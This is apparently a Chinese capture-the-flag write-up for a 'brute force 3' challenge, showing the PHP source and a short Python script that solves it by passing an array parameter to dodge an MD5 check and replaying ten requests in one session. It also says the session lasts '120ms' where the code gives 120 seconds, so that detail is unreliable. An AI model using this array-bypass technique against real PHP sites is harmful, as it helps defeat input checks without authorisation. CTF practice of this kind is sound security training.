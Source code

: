 ## 爆破 - 3
```php
<?php
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```
首先如果 `cookie` 中不设置 `nums` 会给 `whoami` 设置默认值 `ea`，且 `session` 只能维持 120ms，所以应该需要用脚本跑。

接下来，如果 `whoami` 和传入的 `value` 相同，且 `value` 的 MD5 值子串为 0，那么 `nums` 就加 1，`whoami` 更新为两个新的随机字母。后一个条件可以很容易地用数组绕过。

我们尝试传入 `value=ea`，果然显示了 `whoami` 的下一个值。脚本：

```py
import requests

url = 'http://4451e735c9e046bcb09a4404756ca952c586da682cfe47b9.changame.ichunqiu.com/?value[]=ea'

ss = requests.session()
r = ss.get(url)

for i in range(10):
  r = ss.get(url[:-2] + r.text[0:2])
  print(r.text[:50])
```
需要注意的是所有请求都要维持在同一 session 下。
